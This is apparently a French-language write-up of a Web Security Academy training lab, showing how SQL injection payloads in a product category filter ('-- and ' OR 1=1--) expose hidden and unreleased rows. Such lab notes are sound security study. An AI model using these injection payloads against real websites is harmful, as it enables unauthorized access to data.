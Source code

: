 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Ce que nous avons

#### Une URL :

```
https://ac6a1f9b1fce2456c0b0092b00b800e0.web-security-academy.net/
```

#### Des filtres :

```
filter?category=Accessories
```

Ces filtres sont accessible par l'url et donc modifiable.
Ils servent à effectuer une requête SQL pour récupérer les éléments d'une table.

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

## Modification de filtres

#### Elements non released

J'ai d'abord modifié les filtres pour afficher tout les éléments même les éléments non marqué comme "released" en commentant les reste de la requête SQL

```
filter?category=Accessories'--
```

#### Tout les élément

Pour finir j'ai entré une condition qui sera toujours vrai pour annuler le filtre par catégories

```
filter?category=Accessories'+OR+1=1--
```